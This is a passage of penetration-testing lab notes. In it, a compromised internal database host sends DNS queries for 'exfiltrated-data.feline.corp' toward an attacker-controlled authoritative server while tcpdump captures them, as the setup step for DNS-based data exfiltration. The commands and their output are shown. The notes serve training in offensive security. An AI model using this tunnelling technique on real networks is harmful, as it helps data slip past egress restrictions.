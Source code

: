 In another shell on `FELINEAUTHORITY`, we'll set up tcpdump to listen on the **ens192** interface for DNS packets on UDP/53, using the capture filter **udp port 53**:
```
sudo tcpdump -i ens192 udp port 53
```

Now that tcpdump is listening and Dnsmasq is running on `FELINEAUTHORITY`, we will move to our shell on `PGDATABASE01`
+ From there we will make DNS queries aimed at the **feline.corp** domain
+ First let's confirm `PGDATABASE01`'s DNS settings
+ Since DNS resolution is handled by systemd-resolved we can check the DNS settings using the **resolvectl** utility
```
database_admin@pgdatabase01:~$ resolvectl status
...             

Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64
```

`PGDATABASE01`'s DNS server is set to 10.4.50.64 (`MULTISERVER03`)
+ It will query `MULTISERVER03` any time it needs a domain name resolved
+ But `PGDATABASE01` has no outgoing network connectivity, so it can't communicate directory with FELINEAUTHORITY or our Kali machine
+ As an experiment, let's use **nslookup** to make a DNS request for **exfiltrated-data.feline.com**
```
database_admin@pgdatabase01:~$ nslookup exfiltrated-data.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find exfiltrated-data.feline.corp: NXDOMAIN
```

This returns an _NXDOMAIN_ response that indicates the DNS request failed
+ This is expected though, as we haven't configured our DNS server to actually serve any records
+ nslookup used the DNS server running on the localhost interface of `127.0.0.53`. This is normal as it's the DNS resolver provided by the _systemd-resolved_ service running on Ubuntu. It will forward the query to the DNS server that's configured by _Netplan_. However, it may cache results. If we receive outdated DNS responses, we should try flushing the local DNS cache with **resolvectl flush-caches**. We can also query the DNS server directly by appending the serve address to the nslookup command. For example: **nslookup exfiltrated-data.feline.corp 192.168.50.64**.
